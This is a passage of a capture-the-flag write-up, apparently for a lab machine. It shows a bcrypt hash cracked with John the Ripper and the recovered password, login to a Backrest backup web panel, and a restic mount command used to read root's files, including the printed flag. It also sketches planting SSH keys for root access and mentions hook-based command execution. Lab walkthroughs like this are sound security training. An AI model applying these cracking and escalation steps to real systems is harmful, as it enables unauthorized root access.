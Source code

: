 Base64 decoding it presents `$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO`

Hashcat was taking *forever* with this hash. I tried it with jtr instead and it found it immediately. It's likely the password hash type I picked out of the lineup for hashcat was incorrect. This worked well enough though.

```sh
[nix-shell:~/tmp]$ john --wordlist=/nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/rock
you.txt backrest_root.hash    
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
!@#$%^           (?)     
1g 0:00:00:05 DONE (2025-06-21 15:42) 0.1961g/s 1072p/s 1072c/s 1072C/s caleb1..ilovedanny
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Logging into the :9898 interface with our new password for `backrest_root:!@#$%^` we get access to create a repo and create a task.

Based on the documentation, the repo is the snapshot path references, and the task lets us pick a folder on the system that the executing user (root) can access.

So we specify the path as wherever, the task as the directory /root, and do an immediate run of the task.

Now we can run an arbitrary command that's part of the restic suite. This one let me mount the snapshot of /root into /home/gael/restore and strip all permissions letting us get to the root.txt

Pardon the iteration and typos:
```sh
mount /home/gael/restr3 --allow-other --no-default-permissions
```

With that command executed through the web portal, we can now browse to it on the system:
```sh
gael@artificial:~$ cd restre3/snapshots/latest/root/
gael@artificial:~/restre3/snapshots/latest/root$ ls
config  data  index  keys  locks  root.txt  scripts  snapshots
gael@artificial:~/restre3/snapshots/latest/root$ cat root.txt
01b3836583c05a310a3ed9dadb34bc25
```

I wasn't able to log into root, but I bet I could get clever to restore an authorized_keys to /root/.ssh/ and restore a modified /etc/ssh/sshd_config with `permit root login` if I wanted to get full access to the system. But after last week's insane challenge I think I'll leave that exercise to the reader.

Afterwards my buddy found that the hooks endpoints allowed for straight command execution on triggers, that was a much more intuitive idea that did pop a shell.